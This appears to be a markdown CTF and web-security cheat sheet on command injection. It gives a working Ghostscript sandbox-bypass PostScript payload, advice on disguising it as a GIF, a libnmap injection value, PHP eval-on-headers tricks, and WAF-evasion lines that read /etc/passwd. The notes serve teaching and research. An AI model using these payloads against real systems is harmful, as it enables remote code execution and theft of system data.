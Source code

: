 # Command injection  
1. [ghostscript RCE](#ghostscript-rce)  
2. [Command Injection in libnmap](#command-injection-in-libnmap-<nodejs>)  
3. [Dangerous use of php functions](#dangerous-use-of-php-function)  
4. [Bypass with Uninitialized Variable in PHP](#bypass-with-uninitialized-variable-in-php)  

In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)  

## Command Injection in libnmap <Nodejs>
libnmap is the third party module for nodejs to access nmap. If attacker can control the scanned range of ip, it might cause to command injection.  
```js
range:[
	"a.b.$(id)"
]
```  
A very simple vulnerability  
[Hackerone report](https://hackerone.com/reports/390865)  

## Dangerous use of php function
1. `getallheaders()`  
[PHP Manual](http://php.net/manual/en/function.getallheaders.php)  
This function can get all the http headers. Command injection can be done with `eval(getallheaders)` and code injection in headers.  
2. `get_defined_vars()`  
[PHP Manual](http://php.net/manual/en/function.get-defined-vars.php)  
Same concept, but `reset` first would be helpful.  
[More detail to find here](http://blog.1pwnch.com/ctf/websecurity/2018/11/26/Code-Breaking-Puzzles/#easy---phplimit)  

Be careful, if the return data of the function is other type instead of string (e.g. array, object). We can use `implode()` to concate all the data to a string in advance.  

## Bypass with Uninitialized Variable in PHP  
`$u` would be parsed to empty string in bash, but parsed as original string to bypass the waf  
```php
cat$u /etc$u/passwd$u
```  
[Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/)
